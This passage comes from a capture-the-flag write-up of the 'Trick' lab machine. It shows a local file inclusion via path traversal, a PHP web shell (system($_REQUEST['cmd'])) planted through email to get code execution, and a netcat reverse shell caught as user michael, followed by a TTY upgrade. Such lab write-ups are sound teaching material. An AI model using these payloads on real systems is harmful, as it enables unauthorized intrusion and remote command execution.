 
The email is there at `http://preprod-
marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael`:

![image-20221015064830865](https://0xdfimages.gitlab.io/img/image-20221015064830865.png)

#### Include PHP

Because the `page` parameter is being included with the `include` keyword,
that means any PHP in it will be run. I’ll resend the email, this time with
`--body '<?php system($_REQUEST["cmd"]); ?>"`.

Now I’ll add `&cmd=id` to the end of the URL and refresh:

![image-20221015065240733](https://0xdfimages.gitlab.io/img/image-20221015065240733.png)

That’s code execution!

It’s worth noting that `/var/mail/michael` seems to be cleared every two
minutes. This makes sense both so that players don’t see each other’s
exploits, and so that if someone puts bad PHP into that file, they don’t have
to reset the box. Still, it can be a pain, and I’ll likely have to send the
email many times.

#### Shell

I’ll update my payload to a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw). If I put this into
Firefox, I only need to URL encode the `&` (or else it will read that as
ending the parameter and starting a new one):

![image-20221015070227743](https://0xdfimages.gitlab.io/img/image-20221015070227743.png)

This hangs, but at my listening `nc`, there’s a shell as michael:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.166 48976
    bash: cannot set terminal process group (721): Inappropriate ioctl for device
    bash: no job control in this shell
    michael@trick:/var/www/market$
    

I’ll upgrade it using the `script` / `stty`
[technique](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    michael@trick:/var/www/market$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    michael@trick:/var/www/market$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ;fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    michael@trick:/var/www/market$ 
    
